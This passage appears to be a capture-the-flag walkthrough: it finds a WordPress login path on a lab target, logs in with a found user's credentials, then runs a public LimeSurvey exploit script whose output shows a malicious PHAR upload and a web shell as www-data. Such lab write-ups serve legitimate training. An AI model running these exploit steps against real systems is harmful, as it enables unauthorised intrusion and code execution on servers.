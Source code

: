 
<br>

 
> 1.2. <em>What is the login path for the wordpress installation?d</em><br><a id='1.2'></a>
>> <strong><code>/?devtools</code></strong><br>
<p></p>

<br>

<p>Navigated to https://TargetIP<br><br>
It is about <code>Wordpress</code>.</p>

<br>

![image](https://github.com/user-attachments/assets/fc5ccdad-7030-4d44-8d56-3a51e0f83072)

<br>


![image](https://github.com/user-attachments/assets/78a674ad-c707-4c1b-9ba0-d09e3c539c8e)

<br>

<p>Used <code>Anny</code>´s credentials to login.</p>

<br>

![image](https://github.com/user-attachments/assets/a5215a6e-6fa3-4d06-a8bf-1017d9a3df5b)


<br>

<p>The emial is correct.</p>

<br>

![image](https://github.com/user-attachments/assets/d861c073-87b2-49bb-ba46-9d27eaae0dd8)

<br>

![image](https://github.com/user-attachments/assets/4af21cb2-f3a6-4400-ad10-7bd168921699)

<br>

![image](https://github.com/user-attachments/assets/65b34af4-9bdb-4480-8c18-e20a361245a6)

<br>

![image](https://github.com/user-attachments/assets/e432d120-6ac8-4d60-9fb1-7345417cadc9)

<br>

![image](https://github.com/user-attachments/assets/fbda7f7f-bade-4138-a235-179cd6c0d9a2)



```bash
:~/Ghidra# ls
46634.py
:~/Ghidra# python 46634.py http://TargetIP admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 595385
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/595385/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```